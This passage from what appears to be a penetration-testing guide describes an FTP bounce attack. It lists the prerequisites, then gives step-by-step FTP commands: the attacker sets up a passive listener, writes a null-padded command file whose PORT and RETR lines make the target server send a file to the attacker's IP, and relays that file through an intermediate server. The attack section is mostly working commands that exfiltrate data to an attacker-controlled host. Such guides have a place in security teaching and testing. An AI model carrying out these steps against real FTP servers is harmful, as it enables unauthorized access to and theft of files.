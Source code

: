 > [!CAUTION]
> Requirements:
> 
> * Valid credentials in the FTP intermediate server
> * Valid credentials in target FTP server
> * Both servers accept the PORT command
> * Write permissions in the intermediate server
> * Attacker's FTP server supports passive mode

#### Steps

* Connect to your own FTP server and make the connection passive to make it listen in a directory where the victim service will send the file.

```bash
#Start server + connection
service pure-ftpd start
ftp My_IP 21
ftp> USER my_own_username
#Enable passive mode
ftp> pasv
Entering Passive Mode (F,F,F,F,X,X) #Note the output (IP and port)
#Tells server to accept data and to store it into the dump file
ftp> stor dump
```

* Create the file to send to the intermediate server with the commands that the targeted server will have to execute. Let's call this file `instrs`.

```bash
user ftp # user and pass of the targeted server
pass -anonymous@
cwd /DIRECTORY
type i
port F,F,F,F,X,X #IP and port of the attacker
retr file.tar.Z
quit
^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@ ... ^@^@^@^@
^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@ ... ^@^@^@^@
...
```

> [!TIP]
> The extra nulls at the end of the command file are to fill up the TCP windows and ensure that the command connection stays open long enough for the whole session to be executed.

* Upload this file on the intermediate server, then upload it from the intermediate server to the targeted server and __make the targeted machine execute this file. 

```bash
#Run these commands on the intermediate server
put instrs
quote "port C,C,C,C,0,21" #IP of the targeted server
quote "retr instrs"
```
